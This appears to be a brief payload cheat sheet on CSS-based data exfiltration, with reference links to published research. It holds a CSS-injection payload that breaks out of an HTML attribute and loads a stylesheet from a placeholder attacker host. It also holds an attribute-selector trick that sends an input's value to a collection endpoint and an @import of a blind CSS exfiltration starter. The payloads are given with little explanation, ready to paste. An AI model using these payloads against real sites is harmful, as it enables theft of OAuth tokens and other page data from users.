 
```bash
  "><style>@import'//YOUR-PAYLOAD.oastify.com'</style>
```

```bash
<input value=1337>
<style>
input[value="1337"] {
   --value: url(/collectData?value=1337);
}
input {
   background:var(--value,none);
}
</style>
```


```bash
<style>
@import 'https://portswigger-labs.net/blind-css-exfiltration/start';
</style>
```
- https://blog.voorivex.team/css-data-exfiltration-to-steal-oauth-token
- https://portswigger.net/research/blind-css-exfiltration
- https://github.com/hackvertor/blind-css-exfiltration/tree/main
- https://github.com/VoorivexTeam/CSS-Exfiltration/tree/main
- https://portswigger-labs.net/blind-css-exfiltration/start

